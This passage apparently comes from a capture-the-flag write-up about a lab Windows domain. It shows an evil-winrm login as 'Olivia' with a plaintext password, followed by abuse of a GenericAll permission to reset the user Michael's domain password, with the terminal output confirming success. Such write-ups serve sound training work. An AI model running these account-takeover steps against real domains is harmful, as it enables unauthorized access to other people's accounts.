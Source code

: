 Now, we are using the `Olivia` account and have `GenericAll` permission on the `Michael` user.  

So, we open `evil-winrm` again and run the command below to change Michael's password.

`net user michael HelloMichael /domain`

<img src="Imgs/image2.png" alt="error loading image">


```bash
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.11.42 -u Olivia -p 'ichliebedich'    
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\olivia\Documents> net user michael HelloMichael /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\olivia\Documents> 

```

We can see that the command executed successfully:  

```
Username: Michael  
Password: HelloMichael
```
